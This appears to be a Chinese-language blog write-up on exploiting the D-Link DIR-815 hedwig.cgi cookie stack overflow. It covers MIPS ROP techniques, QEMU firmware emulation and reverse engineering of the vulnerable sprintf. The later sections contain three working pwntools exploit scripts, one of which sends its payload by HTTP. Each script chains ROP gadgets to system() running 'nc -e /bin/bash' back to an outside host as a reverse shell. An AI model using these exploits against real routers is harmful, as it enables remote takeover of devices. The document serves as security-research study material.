










没玩过IOT，搞个简单的分析下

踩了非常多的坑，光环境就搞了好久，，QAQ

# MIPS架构特性

## 叶子函数与非叶子函数

-   叶子函数：函数内没有调用其他函数，返回地址直接在`$ra`寄存器中2
-   非叶子函数：函数内调用其他函数，返回地址`$ra`首先通过`sw`放入栈中，之后返回时使用`lw`取出返回

不只是`$ra`，其他寄存器如果使用到了的话也会放入栈中，比如`$s0 ~ $s7，$fp`

`$s0 ~ $s7, $fp, $ra`在栈中是由低到高放的，所以写payload的时候可以顺带控制


## 流水线效应

常见的就是跳转指令，比如在没跳转之前，跳转指令的下一条指令(分支延迟槽)先执行，之后在跳转指令执行。

还有缓存不一致的问题，比如指令缓存器和数据缓存器，两者需要一个时间来同步，所以需要sleep，最好还是sleep一下。

## 跳到某个函数的ROP构造

system函数：

```asm
.text:00053200                 li      $gp, (_GLOBAL_OFFSET_TABLE_+0x7FF0 - .)  # Alternative name is '__libc_system'
.text:00053208                 addu    $gp, $t9
..........
..........
..........
.text:000533E0                 jr      $ra
.text:000533E4                 addiu   $sp, 0x48
```

最开始是从`$gp`寄存器里拿了个偏移之后与`$t9`相加，这时`$t9`是函数的首地址，也就是说跳转的时候要`jalr $t9`这种gadget。

最后返回的时候是`$ra`寄存器，就是说跳到这个函数前就要写好`$ra`寄存器，一般`move $t9,xxx`这种指令后会有`lw $ra,xxx; jr $t9`

可以直接：`mipsrop.tail()`寻找gadget




## 跳到shellcode的ROP链构造

mips一般都是栈溢出的同时将shellcode放到栈上，之后跳过去执行。得到shellcode的地址的话，可以使用如`addiu $s0, $sp, xxx`然后`move $t9, $s0 ; jalr $t9`跳过去，可以直接`mipsrop.stackfinder()`



## system(cmd)的gadget

这里会用到nc反弹shell的命令。

system的参数在`$a0`中，可以使用类似`addiu $s0, $sp, xxx ;move $a0, $s0`来实现，mempcpy函数会有上述的gadget：

由于流水线特性 ，跳过去之前`$a0`就已经给`$s2`了

```asm
.text:00015B6C                 addiu   $s2, $sp, 0x280+var_268
.text:00015B70                 move    $a2, $v1
.text:00015B74                 move    $t9, $s0
.text:00015B78                 jalr    $t9 ; mempcpy
.text:00015B7C                 move    $a0, $s2
```

# 环境搭建

首先是binwalk，提取


32位MIPS小端

https://people.debian.org/~aurel32/qemu/mipsel/

qemu-system-mipsel，系统模拟，下载mips内核镜像和文件系统

-   `debian_squeeze_mipsel_standard.qcow2`是文件系统
-   `vmlinux-3.2.0-4-4kc-malta`是内核镜像

qemu启动脚本：

```sh
sudo qemu-system-mipsel \
-M malta \
-kernel vmlinux-3.2.0-4-4kc-malta \
-hda debian_squeeze_mipsel_standard.qcow2 \
-append "root=/dev/sda1 console=tty0" \
-net nic \
-net tap \
-nographic \
```


网络配置：

网络配置工具：

```
sudo apt-get install bridge-utils uml-utilities
```

配置下网络：

ubuntu:

```sh
sudo sysctl -w net.ipv4.ip\_forward=1  
sudo iptables -F  
sudo iptables -X  
sudo iptables -t nat -F  
sudo iptables -t nat -X  
sudo iptables -t mangle -F  
sudo iptables -t mangle -X  
sudo iptables -P INPUT ACCEPT  
sudo iptables -P FORWARD ACCEPT  
sudo iptables -P OUTPUT ACCEPT  
sudo iptables -t nat -A POSTROUTING -o ens33 -j MASQUERADE  
sudo iptables -I FORWARD 1 -i tap0 -j ACCEPT  
sudo iptables -I FORWARD 1 -o tap0 -m state --state RELATED,ESTABLISHED -j ACCEPT  
sudo ifconfig tap0 192.168.100.254 netmask 255.255.255.0
```

qemu:

```sh
ifconfig eth0 192.168.100.2 netmask 255.255.255.0  
route add default gw 192.168.100.254
```

可以ping通：


auto.sh并执行：

```sh
#!/bin/bash
echo 0 > /proc/sys/kernel/randomize_va_space
cp http_conf /
cp sbin/httpd /
cp -rf htdocs/ /
mkdir /etc_bak
cp -r /etc /etc_bak
rm /etc/services
cp -rf etc/ /
cp lib/ld-uClibc-0.9.30.1.so  /lib/
cp lib/libcrypt-0.9.30.1.so  /lib/
cp lib/libc.so.0  /lib/
cp lib/libgcc_s.so.1  /lib/
cp lib/ld-uClibc.so.0  /lib/
cp lib/libcrypt.so.0  /lib/
cp lib/libgcc_s.so  /lib/
cp lib/libuClibc-0.9.30.1.so  /lib/
cd /
rm -rf /htdocs/web/hedwig.cgi
rm -rf /usr/sbin/phpcgi
rm -rf /usr/sbin/hnap
ln -s /htdocs/cgibin /htdocs/web/hedwig.cgi
ln -s /htdocs/cgibin /usr/sbin/phpcgi
ln -s  /htdocs/cgibin /usr/sbin/hnap
./httpd -f http_conf
```

其中`http_conf`配置文件：

```
Umask 026  
PIDFile /var/run/httpd.pid  
LogGMT On  #开启log  
ErrorLog /log #log文件  
Tuning  
{  
    NumConnections 15  
    BufSize 12288  
    InputBufSize 4096  
    ScriptBufSize 4096  
    NumHeaders 100  
    Timeout 60  
    ScriptTimeout 60  
}  
Control  
{  
    Types  
    {  
        text/html    { html htm }  
        text/xml    { xml }  
        text/plain    { txt }  
        image/gif    { gif }  
        image/jpeg    { jpg }  
        text/css    { css }  
        application/octet-stream { \* }  
    }  
    Specials  
    {  
        Dump        { /dump }  
        CGI            { cgi }  
        Imagemap    { map }  
        Redirect    { url }  
    }  
    External  
    {  
        /usr/sbin/phpcgi { php }  
    }  
}  
Server  
{  
    ServerName "Linux, HTTP/1.1, "  
    ServerId "1234"  
    Family inet  
    Interface eth0         #网卡  
    Address 192.168.100.2  #qemu ip  
    Port "4444"            #port 
    Virtual  
    {  
        AnyHost  
        Control  
        {  
            Alias /  
            Location /htdocs/web  
            IndexNames { index.php }  
            External  
            {  
                /usr/sbin/phpcgi { router\_info.xml }  
                /usr/sbin/phpcgi { post\_login.xml }  
            }  
        }  
        Control  
        {  
            Alias /HNAP1  
            Location /htdocs/HNAP1  
            External  
            {  
                /usr/sbin/hnap { hnap }  
            }  
            IndexNames { index.hnap }  
        }  
    }  
}
```

上传到qemu：

```sh
scp -r squashfs-root/ root@192.168.100.2:/root
```

服务正常启动：

```c
curl http://192.168.100.2:4444/hedwig.cgi -v -X POST -H "Content-Length: 8" -b "uid=zh"
```



退出qemu的话要恢复下`etc`文件夹：

```sh
#!/bin/bash
rm -rf /etc
mv /etc_bak/etc /etc
rm -rf /etc_bak
```


# 分析

DIR-815，exp：https://www.exploit-db.com/exploits/33863

可以看到是cookie的输入有漏洞，

```ruby
    begin
      res = send_request_cgi({
        'method' => 'POST',
        'uri' => "/hedwig.cgi",
        'cookie'   => "uid=#{shellcode}",
        'encode_params' => false,
        'vars_post' => {
          rand_text_alpha(4) => rand_text_alpha(4)
        }
      })
      return res
    rescue ::Rex::ConnectionError
      fail_with(Failure::Unreachable, "#{peer} - Failed to connect to the web server")
    end
```


ida查看cookie的字符串发现只有一处交叉引用，




`sess_get_uid`的交叉引用：


漏洞点就在`sess_get_uid`后面的`sprintf`，一共有两处，下面从main的头分析下：

首先判断请求的方式，必须是POST请求，之后走`cgibin_parse_request`函数：


`cgibin_parse_request`函数会取出来几个环境变量的值：`CONTENT_TYPE`，`CONTENT_LENGTH`，`REQUEST_URI`，这个函数之后再分析

接下来会执行`sess_get_uid`函数：

首先取出`HTTP_COOKIE`的值：



之后将等号前的值给v2：


其中`sobj_add_char(a1,a2)`是将a2前的值给a1：


以及将等号之后的值给v4：


再之后判断`v2`为`uid`的话将`UID`的值给`v8`，然后拼接到`a1`(也就是`main`中传进来的`v4`)



然后就是第一个栈溢出的点

之后是两个判断：


其中第一个判断要有`/var/tmp/`这个文件夹，第二个判断`haystack`在`cgibin_parse_request`的第一个参数可以操作：


也就是说要走到这里才可以(其中的a1就是`sub_409A6C`)，其中最早的有个判断`v9!=-1`，`CONTENT_TYPE`不能为空：


`cgibin_parse_request`函数首先获取几个值，其中`REQUEST_URI`不能为空：


后面还有个`sprintf`，其中的v4没有变过


# EXP

有两种方式，一种是将写好的payload放到qemu执行，还有一种是直接发送http请求。

## qemu执行exp

其中的test就是gdb的cyclic生成的字符串

```sh
#!/bin/bash  
export CONTENT_TYPE="application/x-www-form-urlencoded"  
export HTTP_COOKIE="uid=`cat test`"  
export CONTENT_LENGTH=$(echo -n "$HTTP_COOKIE" | wc -c)  
export REQUEST_METHOD="POST"  
export REQUEST\_URI="/hedwig.cgi"  
echo "uid=1111"|./gdbserver.mipsle 192.168.111.131:6666 /htdocs/web/hedwig.cgi  
#echo "uid=1111"|/htdocs/web/hedwig.cgi
```


```sh
gdb-multiarch htdocs/cgibin
set architecture mips
target remote 192.168.100.2:6666
b hedwigcgi_main
b *0x409a50
b *0x00409A28
```

可以看到偏移为1009


重新写下看看偏移是否是1009：

```sh
#!/bin/bash  
export CONTENT_TYPE="application/x-www-form-urlencoded"  
export HTTP_COOKIE=$(python -c "print 'uid=' + 'A'\*1009 + '0000'")   
export CONTENT_LENGTH=$(echo -n "$HTTP_COOKIE" | wc -c)  
export REQUEST_METHOD="POST"  
export REQUEST\_URI="/hedwig.cgi"  
echo "uid=1111"|./gdbserver.mipsle 192.168.111.131:6666 /htdocs/web/hedwig.cgi  
#echo "uid=1111"|/htdocs/web/hedwig.cgi
```

可以看到确实是1009



libc基址：`0x77f34000`




其中的system，加上libc的base就是`0x767a8b200`，为了防止`00`，先减一，之后找个gadget加一就行




exp

```python
from pwn import *
context(os = 'linux', arch = 'mips', log_level = 'debug')
 
cmd = b'nc -e /bin/bash 192.168.111.138 8888'
 
libc_base = 0x77f34000
system_addr_1 = 0x53200 - 1
gadget1 = 0x32A98
gadget2 = 0x169C4
#.text:000169C4                 addiu   $s2, $sp, 0x170+var_158//0x18
#.text:000169C8                 move    $a2, $v1
#.text:000169CC                 move    $t9, $s0
#.text:000169D0                 jalr    $t9 ; mempcpy
#.text:000169D4                 move    $a0, $s2

payload = b'a'*973 							# 1009-4*9
payload += p32(libc_base + system_addr_1) 	# s0  system_addr- 1
payload += p32(libc_base + gadget2) 		# s1  
payload += b'a'*(4*7)
payload += p32(libc_base + gadget1) 		# ra  addiu $s0, 1 ; jalr $s1
payload += b'a'*0x18
payload += cmd
 
fd = open("test", "wb")
fd.write(payload)
fd.close()
```

exp2:

这个就是https://www.exploit-db.com/exploits/33863改的

```python
from pwn import *
context(os = 'linux', arch = 'mips', log_level = 'debug')
 
cmd = b'nc -e /bin/bash 192.168.111.138 8888'
 
libc_base = 0x77f34000
system_addr_1 = 0x53200 - 1
gadget1 = 0x00158C8
#.text:000158C8                 move    $t9, $s5
#.text:000158CC                 jalr    $t9
#.text:000158D0                 addiu   $s0, 1
gadget2 = 0x000159CC
#.text:000159CC                 addiu   $s5, $sp, 0x14C+var_13C
# ......
#.text:000159D8                 move    $t9, $s0
#.text:000159DC                 jalr    $t9 ; mempcpy
#.text:000159E0                 move    $a0, $s5

payload = b'a'*973 							# 1009-4*9
payload += p32(libc_base + system_addr_1) 	# s0  system_addr- 1
payload +=b'a'*(4*4)						# $s1 - $s4
payload += p32(libc_base + gadget2) 		# s5
payload +=b'a'*(4*3)					# $s6 - $fp
payload += p32(libc_base + gadget1) 		# ra  move $t9, $s5 ; jalr $s5;addiu $s0, 1
payload += b'a'*0x10
payload += cmd
 
fd = open("test", "wb")
fd.write(payload)
fd.close()
```




## http请求发payload：


```python
from pwn import *
import requests
context(os = 'linux', arch = 'mips', log_level = 'debug')
 
cmd = b'nc -e /bin/bash 192.168.111.138 8888'
 
libc_base = 0x77f34000
system_addr_1 = 0x53200 - 1
gadget1 = 0x32A98
gadget2 = 0x169C4
#.text:000169C4                 addiu   $s2, $sp, 0x170+var_158//0x18
#.text:000169C8                 move    $a2, $v1
#.text:000169CC                 move    $t9, $s0
#.text:000169D0                 jalr    $t9 ; mempcpy
#.text:000169D4                 move    $a0, $s2

payload = b'a'*973 							# 1009-4*9
payload += p32(libc_base + system_addr_1) 	# s0  system_addr- 1
payload += p32(libc_base + gadget2) 		# s1  
payload += b'a'*(4*7)
payload += p32(libc_base + gadget1) 		# ra  addiu $s0, 1 ; jalr $s1
payload += b'a'*0x18
payload += cmd
 
url = "http://192.168.100.2:4444/hedwig.cgi"
data = {"aaa" : "pwner"}
headers = {
    "Cookie"        : b"uid=" + payload,
    "Content-Type"  : "application/x-www-form-urlencoded",
    "Content-Length": "1111"
}
res = requests.post(url = url, headers = headers, data = data)
```

也是可以打通的：


